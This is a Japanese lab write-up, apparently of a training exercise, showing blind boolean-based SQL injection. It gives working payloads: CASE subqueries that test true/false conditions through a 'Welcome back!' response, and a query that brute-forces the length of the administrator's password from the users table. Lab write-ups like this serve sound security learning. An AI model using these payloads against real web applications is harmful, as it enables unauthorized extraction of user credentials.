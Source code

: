 前回と違い、`'`, `''`でのreponseの違いはないが、`' and 1=1 -- --`, `' and 1=0 -- --`では違いがある。

![](./images/README_231009_4319.png)

Responseの違いを見てみると、`Welcome back!`が表示されているか否かであることがわかる。

つまりサブクエリでboolを返してあげると良さそう。

```sql
' and (select case when (1=0) then 1=1 else 1=0 end) -- --
' and (select case when (1=1) then 1=1 else 1=0 end) -- --
```

上記payloadを送った結果

- 1=0 => welcome back なし
- 1=1 => welcome back あり 

という結果になったため、OK

あとはやるだけ。

### Exploit

まずはpasswordの長さを調査する。

```sql
' and (select case when (length((select password from users where username='administrator')) = numbers) then 1=1 else 1=0 end) -- --
```

これでPayload Positionでターゲットをnumbersに指定し、0 ~ 30で指定してあげると20でWelcome back帰ってくることがわかるので、Passwordの長さがわかります。
